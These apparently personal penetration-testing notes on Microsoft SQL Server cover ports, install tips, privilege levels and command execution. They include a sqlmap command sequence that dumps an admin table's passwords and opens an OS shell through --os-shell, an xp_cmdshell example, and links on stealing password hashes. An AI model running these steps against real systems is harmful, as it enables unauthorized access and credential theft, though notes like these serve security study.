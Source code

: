 # SqlServer

端口 1433


__工具__

* SQLTools 2.0

## SqlServer 2000 在win7x64安装条件

1.计算机名更改为全用大写字符就可以了。
2.设置SETUPSQL.exe 兼容性为winxp, 管理员身份证运行

## 转义
sqlsserver 用"" 来转义 "

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config密码等 

在asp web的目录下

web.config

## 命令执行

方法一：xp_cmdshell 

exec master..xp_cmdshell "whoami"默认执行是关闭 

https://blog.csdn.net/weixin_30654583/article/details/97225375

# Article
[窃取MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)
[MSSQL注入和漏洞利用姿势总结](https://mp.weixin.qq.com/s/OakfrGRvYPYGFLY_30aj5w)
[红队必修课之针对MSSQL数据库攻击尝试](https://forum.butian.net/share/1390)

